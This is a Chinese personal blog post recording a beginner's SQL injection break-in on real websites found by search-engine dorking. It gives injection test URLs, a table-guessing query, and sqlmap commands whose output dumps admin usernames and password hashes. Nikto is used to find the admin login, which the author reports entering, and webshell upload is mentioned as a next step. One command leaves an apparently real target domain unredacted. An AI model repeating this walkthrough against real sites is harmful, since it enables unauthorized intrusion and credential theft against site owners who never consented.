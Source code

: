 ```yaml
---
layout: post
title:  " 一次Sql注入记录"
categories: Hacker
tags:  sql hacker
---
```


* content
{:toc}

## 0x00 背景

菜鸟级别的sql注入。

## 0x01 踩点

现在sql注入的漏洞已经不太好找了，大部分的网站都对这方面做好了防范，因此如果你继续使用`inurl:asp?id=`这种语法来查找试点，其实也挺困难的，很大的可能是找了很久都找不到，打消积极性。

所幸有很多现有的漏洞，比如搜关键字`inurl:TeachView.asp`，这是一个已知的漏洞，很早前在乌云上就有了，但是还有很多带着漏洞的网站在运行，因此，在百度上一搜，大把大把的......





### sql注入漏洞检测三部曲

**第一步：**

```
http://www.example.com/TeachView.asp?id=1'
#网页应该会变化，一般出现个错误界面，里面有错误代码,比如下面的信息：
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'[Microsoft][ODBC Microsoft Access Driver] 语法错误 (操作符丢失) 在查询表达式 'id=1鈥' 中。/TeachView.asp，行 5
```

**第二步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=1
#网页应该是正常的。
```

**第三步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=2

#网页有出错了，但是和之前的不一样了。
ADODB.Field 错误 '80020009'BOF 或 EOF 中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。/TeachView.asp，行 0

```

## 0x02 sql注入

sql注入分手工和工具注入。目前网上大部分都是教各种工具的用法，其实最好还是先自己尝试手动试一下，至少能了解大致的思路，比如怎么猜数据库名、字段，然后再使用工具。

### 手动注入举例

其实我也不怎么会手动注入，只是自己尝试几个后就用工具了，比较懒，以后看心情学了。很多猜测技巧，网上有现成的！

```
#举个小栗子，猜测表名
http://www.example.com/TeachView.asp?id=1 and (select count(*) from admin )>0
```

### sqlmap

当发现自己动手实在猜不出来结果后，直接上工具，kali自带sqlmap就够用，看一下帮助文档，开搞。

*下面记录，忽略大部分没用的信息，并且隐藏了所有我意识到的真实的数据。*

**先试下能不能看到所有数据库：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dbs

......

web server operating system: Windows 2003 or XPweb application technology: ASP.NET, 
Microsoft IIS 6.0, 
ASPback-end DBMS: Microsoft Access[02:15:55] [WARNING] on Microsoft Access 
it is not possible to enumerate databases (use only '--tables')
......

```

嗯，貌似不用枚举所有的db名称，但是知道了服务器的情况，剩了nmap自己扫了。貌似版本都很低，看来我也就配这种老系统了......

**那直接看一下表名：**

```
~$ sqlmap -u "http://www.yxqyxzx.com/TeachView.asp?id=1" --tables
......
[02:19:01] [INFO] fetching tables for database: 'Microsoft_Access_masterdb'[02:19:01] [INFO] fetching number of tables for database 'Microsoft_Access_masterdb'
......
[02:19:55] [INFO] retrieved: admin
......

```

我很好奇，之前都搜不出来db名，这次直接就默认了一个db的名字，个人猜测，sqlmap是通过这个web程序的权限来看数据库，那么通过这个web入口应该默认到这个数据库中。

数据表比较多，暂时只关注最主要的admin表。

**然后要尝试获取字段：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin

......
[02:53:46] [INFO] retrieved: id[02:53:52] [INFO] retrieved: adminname[02:55:08] [INFO] retrieved: adminpassword
......
```

**接着就是获取帐号密码：**

其实帐号可以自己猜一些，手动注入的时候可以试试，比如admin、administrator什么的，怎么手动获取密码我还不会。

```
sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin -C adminnamDatabase:
Microsoft_Access_masterdbTable: admin[2 entries]+----+-----+-----+------------------+----------+-----------+------------------+| id | url | num | title            | username | adminname | adminpassword    |+----+-----+-----+------------------+----------+-----------+------------------+| 1  | NULL | 198 | OY\x7f\x8es\x89- || admin    | 7a57a5a743894a0e || 4  | NULL | 472 | OY\x7f\x8es\x89- || admin2    | 7a57a5a743894a0e |

```

好了，现在获取到了帐号和密码的MD5值，然后上网解密一下就行了。

## 0x03 后台地址查找

查找后台地址的时候，我很靠谱的使用了手动查找，各种inurl就是搜不出来后台，最后看了一下kali里面有一个nikto，看一下帮助文档，感觉很傻瓜的样子。

```
~$ nikto -host http://www.example.com

- Nikto v2.1.6

---------------------------------------------------------------------------

+ Target IP:          *.*.*.*

+ Target Hostname:    www.example.com

+ Target Port:        *

+ Start Time:        2016-03-06 02:39:37 (GMT8)

---------------------------------------------------------------------------

......

+ Multiple index files found: /index.html, /index.asp

......

+ /admin/login.asp: Admin login page/section found.

+ /login.asp: Admin login page/section found.

......

```

**然后根据前面的帐号密码就可以很开心的进去了。**

## 0xFF 总结

个人感觉，上面记录的方法应该是非常不前卫的，因为大部分网站都很那找到这种漏洞了，但是思想应该还是比较相近的，可以学习一下整个思路，然后与时俱进地学习。

拿到管理员帐号后，可以做更多事，比如上传webshell、提权什么乱七八糟的，这就留到以后了。

第一次入侵成功后，其实没有什么成就感，也没有什么破坏欲，最大的感受就是，好坏就在一念之差了。



******
2016-03-06 22:00:00 hnds